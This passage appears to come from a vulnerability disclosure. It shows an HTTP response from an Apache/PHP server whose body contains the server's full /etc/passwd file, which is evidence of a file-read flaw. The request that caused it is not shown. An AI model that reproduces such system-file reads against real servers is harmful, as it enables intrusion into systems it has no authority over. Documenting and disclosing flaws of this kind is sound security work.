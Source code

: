 <i><b>HTTP Response :</b></i> 

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
HTTP/1.1 200 OK
Date: Sat, 26 Dec 2020 21:18:10 GMT
Server: Apache/2.2.3 (CentOS)
X-Powered-By: PHP/5.1.6
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length:  2349
[....]
&lt;pre><span style="color:#cd0000;"><b>root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
avahi:x:70:70:Avahi daemon:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
avahi-autoipd:x:100:102:avahi-autoipd:/var/lib/avahi-autoipd:/sbin/nologin
oprofile:x:16:16:Special user account to be used by OProfile:/home/oprofile:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash</b></span>
&lt;/pre>&lt;/p>&lt;/div>
&lt;/body>
&lt;/html>
</pre>
